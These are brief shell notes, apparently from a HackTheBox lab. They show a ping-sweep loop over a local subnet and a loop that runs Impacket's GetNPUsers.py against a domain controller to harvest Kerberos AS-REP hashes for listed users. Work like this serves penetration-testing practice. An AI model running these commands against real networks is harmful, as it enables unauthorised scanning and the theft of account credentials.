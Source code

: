 #ping all the 192.168.0.x subnet  
for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done; 

#loops over a file "users" executes.py  
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done 
